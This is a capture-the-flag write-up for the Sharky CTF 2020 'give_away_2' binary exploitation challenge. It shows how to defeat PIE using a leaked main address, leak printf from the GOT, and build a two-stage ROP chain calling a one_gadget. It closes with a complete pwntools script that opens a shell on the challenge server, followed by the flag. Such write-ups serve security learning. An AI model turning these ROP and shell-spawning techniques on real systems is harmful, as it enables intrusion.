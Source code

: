 ```yaml
---
title: "Sharky CTF 2020: give_away_2 (Pwn)"
layout: post
date: 2020-05-12
tags:
- CTF
- writeup
- Sharky CTF 2020
- Pwn
comments: true
---
```


> Make good use of this gracious give away.
>
> Creator: Hackhim
>
> [give\_away\_2](/files/give_away_2)
>
> [libc-2.27.so](/files/libc-2.27-x64.so)

As with most pwn challenges, let's start off by checking what kind of binary we're given.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ file give_away_2
give_away_2: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=5c93b7c4ff1a036cb291045d3ab76155d22ce1a6, not stripped
```

Okay, it's just a 64 bit ELF binary. Let's run it to get a better idea of what it does.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ ./give_away_2
Give away: 0x560f72579864

```

Seems like it just prints a hex value and gets some input from us. Hmm, this is very similar to [give_away_1](../sharky-ctf-give_away_one). Perhaps we should also test if the input is vulnerable to buffer overflow?

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ python -c 'print "A"*1024' | ./give_away_2
Give away: 0x55d1ba2a0864
Segmentation fault (core dumped)
```

Yup I guess this is vulnerable too. Let's open up the binary in IDA and see what the hex value is.

```
lea     rsi, main
lea     rdi, format     ; "Give away: %p\n"
mov     eax, 0
call    printf ; printf("Give away: %p\n", main);
```

Oh that's perculiar, we're given the address of `main` instead. Why would be possibly need that? This rings some bells. Let's try checking what security features this binary has. We can do this with the [checksec](http://www.trapkit.de/tools/checksec.html) utility.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ checksec give_away_2
[*] '/vagrant/challenges/sharky/give_away_two/give_away_2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Okay, that explains it. This is a [Position Independent Executable (PIE)](https://codywu2010.wordpress.com/2014/11/29/about-elf-pie-pic-and-else/). In the context of this challenge, it means that the address of `main` would be different every run (assuming [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is turned on). We can verify this by running the binary multiple times.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ ./give_away_2
Give away: 0x55d3de27b864
asdf
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ ./give_away_2
Give away: 0x559fd6f12864
asdf
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ ./give_away_2
Give away: 0x55803ddf9864
asdf
```

Given that the binary leaks the address of `main`, PIE is not much of an issue for us since we can now calculate the (base) address that the binary is loaded at.

```
base address = leaked main address - offset of main within the binary
```

As with give\_away\_1, we still need to get a shell on the system. Since this is a 64 bit ELF, there's a nifty trick that we can use. Instead of calling `system("/bin/sh")`, we can use [one_gadget](https://github.com/david942j/one_gadget) to find a single gadget that can spawn a shell for us.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_two$ one_gadget libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

As seen above, there's a set of constraints we have to fulfil for each one\_gadget. Let's go with the second one (0x4f322) because I think it's more probable than `rcx` being `NULL`. One caveat is that the addresses above are relative to where libc is is going to be loaded. Since we don't have a leak to a libc address (as with give\_away\_one), we have to leak it ourself. An easy way to do this is to use the printf function in main. This also kills two birds with one stone, because `vuln` will conveniently be called a second time which allows us to send the payload to call the one\_gadget.

```
.text:0000000000000872    lea     rsi, main
.text:0000000000000879    lea     rdi, format ; "Give away: %p\n"
.text:0000000000000880    mov     eax, 0
.text:0000000000000885    call    printf
```

As seen above, the offset of `printf` within the binary is 0x885 so we can just add it to the base address that we calculated earlier. We can call printf against it's own entry in the [Global Offset Table (GOT)](https://en.wikipedia.org/wiki/Global_Offset_Table) to leak the libc address of printf.

Okay so let's summarize our plan of attack:

1. Leak the address of main (given to us)
2. Calculate binary base address
3. Calcuate the address of print in main
4. Send first ropchain to call `printf(<address of printf@GOT>)`
5. Calculate libc base address based on leaked printf libc address
6. Send second ropchain to call one\_gadget
7. Profit

Our first ropchain should look like this:

```
<padding of ? bytes><gadget: pop rdi; ret;><address(printf@GOT)><address(printf@main)>
```

Our second ropchain should look like this:

```
<padding of ? bytes><address(one_gadget)>
```

All we need now is the padding. Let's go for a more automated approach this time because why not? I've integrated it into the solve script below.

```python
#! /usr/bin/python2

import os
from pwn import *

HOST = 'sharkyctf.xyz'
PORT = 20335
BINARY = './give_away_2'

elf = context.binary = ELF(BINARY)
libc = ELF('./libc-2.27.so')

# Gadgets

libc.symbols['one_gadget'] = 0x4f322

'''
One Gadget
----------
0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
'''

# Offsets

elf.symbols['main_printf'] = 0x885

'''
.text:0000000000000872    lea     rsi, main
.text:0000000000000879    lea     rdi, format ; "Give away: %p\n"
.text:0000000000000880    mov     eax, 0
.text:0000000000000885    call    printf
'''

# RIP Padding

p = process(BINARY)
p.sendline(cyclic(64, n=8))
p.wait()

core = p.corefile

p.close()
os.remove(core.file.name)

PAYLOAD_PADDING = cyclic_find(core.read(core.rsp, 8), n=8)

log.success('Found padding length: {}'.format(PAYLOAD_PADDING))

# Start connection

r = remote(HOST, PORT)

# Stage 1: Get main leak

main = int(r.recvline().split()[2][2:], 16)
log.info('Leaked main address: 0x{:x}'.format(main))

# Stage 2: Build Rop Chain (leak printf@libc)

elf.address = main - elf.symbols.main
log.info('Calculated base address: 0x{:x}'.format(elf.address))

rop = ROP(elf)
rop.main_printf(elf.got.printf)

log.success('Built ROP Chain (Leak printf@libc)')
log.success(rop.dump())

# Stage 3: Leak printf@libc

r.sendline(fit({ PAYLOAD_PADDING: rop.chain() }))
log.success('Sent payload')

libc_printf = u64(r.recvn(6) + '\x00\x00')  # Fix address width
log.info('Leaked printf@libc address: 0x{:x}'.format(libc_printf))


# Stage 4: Build ROP Chain (Call one_gadget)

libc.address = libc_printf - libc.symbols['printf']
log.info('Calculated libc base address : 0x{:x}'.format(libc.address))

rop1 = ROP([elf, libc])
rop1.one_gadget()

log.success('Built ROP Chain (Call one_gadget)')
log.success(rop1.dump())

# Stage 5: Pwn

r.sendline(fit({ PAYLOAD_PADDING: rop1.chain() }))

log.success('Sent payload')
log.progress('Spawning a shell...')

r.interactive()
```

Let's see it in action!

<script id="asciicast-329300" src="https://asciinema.org/a/329300.js" async></script>

Flag: `shkCTF{It's_time_to_get_down_to_business}`
